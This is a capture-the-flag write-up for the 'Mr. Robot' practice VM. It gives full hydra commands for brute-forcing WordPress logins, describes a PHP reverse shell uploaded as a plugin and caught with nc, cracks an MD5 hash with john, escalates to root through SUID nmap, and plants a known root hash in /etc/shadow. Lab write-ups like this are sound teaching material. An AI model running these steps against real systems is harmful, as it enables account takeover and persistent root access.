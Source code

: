 # Mr. Robot
_IP: 10.0.4.5_

The first thing I did was an nmap scan which you can find i this folder.
Basicly, it did not tell us much, but I found out that there is site running.

_The first thing I checked was:_
https://10.0.4.5/robots.txt

_This is what I've got:_<br>
> User-agent: *<br>
> fsocity.dic<br>
> key-1-of-3.txt

> [!NOTE]
> _key-1-of-3.txt is a flag for ctf doers._

**After some research I figured out that that was a wordpress site.**<br>
Then, I found the login page and started preparing for bruteforce.
Probably there was an easier way, but I ran BurpSuite intercepted traffic while trying to login, and got this line:<br>
> log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1

This is how looked a command for bruteforcing a username:<br>
`hydra -L fsocity.dic -p test 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid username" -V`
> [80][http-post-form] host: 10.0.4.5   login: Elliot   password: test

Now I need to bruteforce the password. But first we need to remove dublications from the file since there is a lot of them.<br>
`sort fsocity.dic | uniq > new_fsocity.dic`

You can check the lenght of the file before and after using this command:
`wc -l`

Then run password bruteforcing.<br>
`hydra -l Elliot -P n_fsocity.dic 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:The password you entered" -V`

Username: _Elliot_ <br>
Password: _ER28-0652_

Looks like I can upload my own plugins, so I found a simple php reverse-shell, and zipped it, so wordpress thinks it is a plugin.<br>
`zip rev-plug.zip ./shell.php`

Upload the plugin, set up a nc listener, and activate the plugin. Now we have a reverse-shell.
Use this command to upgrade the shell:<br>
`python -c 'import pty; pty.spawn("/bin/bash")'`

We can see that there is a user named robot. Go to his folder and we will find:
> key-2-of-3.txt - Second key for ctfers<br>
> password.raw-md5

This is what I have found in password.raw-md5<br>
> robot:c3fcd3d76192e4007dfb496cca67e13b

Let's crack the hash.<br>
`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt robot_hash.txt` <br>
username: _robot_ <br>
password: _abcdefghijklmnopqrstuvwxyz_

Change current user to robot.

## Almost there
**Now we need to find a way to escalate our privileges.**

We cannot run sudo. Let's look what we can do.<br>
I used the next command to find files that I can run with their owner privileges.<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
One of these files was _nmap_.

It is useful to have a simple hash if we need in any case.
> WVLY0mgH0RtUI = mrcake

> [!NOTE]
> https://gtfobins.github.io/ <br>
> Useful site to find ways for privilege escalation.

To escalate our privileges with nmap I do:
`nmap --interactive`
`!sh`

Then modify the password of root in /etc/shadow to our known hash, so that you can easily access it again.
`nano /etc/shadow`
`root:WVLY0mgH0RtUI:16753:0:99999:7:::`

**Thank you for attention.**
